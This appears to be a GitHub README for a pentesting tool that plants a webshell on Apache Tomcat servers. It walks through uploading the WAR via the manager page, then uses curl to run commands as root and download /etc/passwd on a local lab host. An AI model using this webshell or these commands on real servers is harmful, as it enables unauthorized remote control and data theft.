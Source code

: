 # Apache Tomcat webshell plugin for RCE

<p align="center">
  A webshell plugin and interactive shell for pentesting Apache Tomcat application.
  <br>
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/Tomcat-plugin-webshell">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
  <br>
</p>

## Features

 - [x] Webshell plugin for Apache Tomcat.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of an high privilege account of the Apache Tomcat server.

### Step 1: Access the Tomcat manager and upload the webshell plugin

First of all, you will need to access the Apache Tomcat `/manager` page at http://127.0.0.1:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](./.github/manager.png)

Then choose the WAR file of the webshell plugin and click on "Deploy":

![](./.github/upload_a_plugin.png)

And the application is deployed:

![](./.github/webshell_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.



## Development

If you need to compile this plugin, you can use the docker image provided, simply type `make` to build your plugin present in the `webshell` folder. Output WAR files will be put in the [`./webshell/dist/`](./webshell/dist/) folder.

![](./.github/compile.png)

Then if you need to test the plugin locally, you can start an Apache Tomcat instance with the test environnement in [./test_env/](./test_env/).

## References
 - https://linuxtut.com/create-a-java-servlet-and-jsp-war-file-to-deploy-to-apache-tomcat-9-in-gradle-eb464/
